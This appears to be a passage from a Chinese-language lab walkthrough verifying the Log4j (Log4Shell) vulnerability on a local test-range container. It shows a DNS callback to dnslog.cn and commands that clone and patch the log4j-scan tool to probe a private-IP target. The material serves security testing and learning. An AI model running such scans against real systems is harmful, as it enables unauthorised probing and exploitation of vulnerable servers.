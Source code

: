 ![](../img/Dracuspicy/12.png)

看到 dnslog.cn 页面有解析记录，说明漏洞可利用。

. 自动化工具验证 - [**log4j-scan**](https://github.com/fullhunt/log4j-scan)

```bash
# 下载 log4j-scan
git clone https://github.com/fullhunt/log4j-scan.git

cd log4j-scan

# 安装依赖
pip install -r requirements.txt

# 手动修改代码 log4j-scan.py 在 post_data_parameters 中添加 payload 参数

# 无脑替换
sed -i.bak 's/password"/password", "payload"/' log4j-scan.py

# 扫描靶场容器
python3 log4j-scan.py --request-type post -u http://192.168.182.129:43381/hello --dns-callback-provider dnslog.cn
```

![](../img/Dracuspicy/13.png)

- 因为访问请求方法只支持GET，所以需要改 GET 请求的参数，将键 `v` 改为 `payload`

![](../img/Dracuspicy/80.png)